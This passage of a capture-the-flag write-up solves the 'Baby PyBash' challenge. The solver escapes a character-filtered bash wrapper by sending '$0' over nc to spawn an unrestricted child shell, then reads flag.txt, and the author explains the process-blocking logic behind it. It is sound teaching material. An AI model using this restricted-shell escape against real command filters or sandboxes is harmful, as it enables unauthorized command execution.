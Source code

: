 ```
Welcome to fish, the friendly interactive shell
Type help for instructions on how to use fish
ccrollin@thinkpad-p43s ~> echo "I am in another shell called fish for demonstration purposes"
I am in another shell called fish for demonstration purposes
ccrollin@thinkpad-p43s ~> 
ccrollin@thinkpad-p43s ~> /bin/bash
ccrollin@thinkpad-p43s:~$ 
ccrollin@thinkpad-p43s:~$ echo $0
/bin/bash
ccrollin@thinkpad-p43s:~$ exit
exit
ccrollin@thinkpad-p43s ~> echo "I am back in fish"
I am back in fish
ccrollin@thinkpad-p43s ~> 
```

See how we got into a new child `bash` shell, we just provided the path to the executable....and remember our `$0` variable equals `/bin/bash`.....and the character `$` and `0` are in the allowed characters list from above....

You thinking what I am thinking?

### Yahtzee!
```
ccrollin@thinkpad-p43s ~/D/c/2/c/b/challenge> nc baby-pybash.challs.csc.tf 1337
== proof-of-work: disabled ==
Welcome to Baby PyBash!

Enter a bash command: $0
ls
chall.py
flag.txt
run.sh
cat flag.txt
CSCTF{b4sH_w1z4rd_0r_ju$t_ch33s3_m4st3r?_c1d4eeb2a}
```

We are now able to run previously "restricted" commands and print the flag out. When we give the first bash shell `$0`, we get another child process also of `bash`. _On face value this seems odd and useless, but there is much more to note_.

### The Why
> Why does the technique shown above allow us to input any commands/characters?

This is because the child `bash` process never calls the `exit()` system call. **According to the program logic as it is given, the Python parent process only reads from standard input before an executed command to the parent `bash` process terminates (calls `exit()`)**. 

Since the first command we give to `subprocess.run()` (remember under the hood is `bash`) is `/bin/bash` (by proxy of `$0`) and not something like `ls` that prints and immediately terminates, the parent Python process is perpetually in the [waiting/blocking state](https://en.wikipedia.org/wiki/Process_state#Blocked).
